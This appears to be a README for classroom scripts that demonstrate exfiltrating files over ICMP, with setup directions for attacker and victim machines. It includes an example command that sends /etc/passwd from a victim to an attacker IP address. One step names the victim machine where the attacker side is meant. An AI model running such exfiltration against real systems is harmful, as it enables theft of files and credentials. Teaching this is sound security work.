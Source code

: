 ## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over the ICMP protocol.   
- listen.sh: This runs the tcpdump command and produces the output file data.dmp.  
- pyarray.py: This program parses through the data.dmp file.  
- rebuild.sh: This script runs pyarray, produces a file called hexout, and prints the recieved file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy **exfil.sh** to the **VICTIM MACHINE**  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh.  
(You should see a file called data.dmp which contains the tcpdump output.)

On the **VICTIM** machine  
Run
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  


